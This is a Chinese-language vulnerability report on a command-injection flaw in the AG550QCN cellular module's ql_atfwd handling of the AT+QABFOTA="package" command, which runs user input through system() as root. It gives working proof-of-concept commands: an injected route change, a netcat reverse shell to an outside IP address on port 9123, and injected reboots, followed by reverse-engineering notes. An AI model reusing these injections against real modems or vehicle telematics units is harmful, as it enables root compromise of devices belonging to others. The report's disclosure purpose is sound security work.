





漏洞描述：
        AG550QCN模组ql_atfwd对AT指令'AT+QABFOTA=“package”... '处理时，参数过滤不严格，存在命令注入漏洞，可以直接root权限执行任意命令，并反弹shell。

受影响模组基本信息：

模组：AG550QCN
模组系统版本：Linux sa515m 4.14.206-perf #1 PREEMPT Sat Jun 11 02:53:21 CST 2022 armv7l GNU/Linux

反弹shell POC演示

外网机器监听9123端口
                nc -lvvp 9123

Tbox MPU执行下列命令
                1、添加路由器规则，让modem连接外网    （模组没有默认路由，所以无法直接访问外网，需要手动添加）
                        echo 'AT+QABFOTA="package",1&&ip route add default dev rmnet_data1' >/dev/ttyUSB1
                2、反弹shell
                        echo 'AT+QABFOTA="package",1&&nc 123.56.128.98 9123 -e /bin/sh' >/dev/ttyUSB1

漏洞详情：

  1、at fwd程序 支持QABFOTA命令
  
  2、进入处理函数5AF4
  
  3、off_267C4是子功能列表，["reboot",func_reboot,"state",func_state…]
  
  3、分析package处理函数 sub_11B20+1
  
  4、system(s)函数，其中s直接引用用户的输入，没有做过滤

POC：

#MPU执行下列命令，另4g module重启
Echo 'AT+QABFOTA="package",1&&reboot' >/dev/ttyUSB1
#4G模组执行
Ql_cmd at 'AT+QABFOTA="package",1&&reboot'
5、进入模组使用strace分析，可以看到命令被添加到"sh","-c","fotainfo…" 中

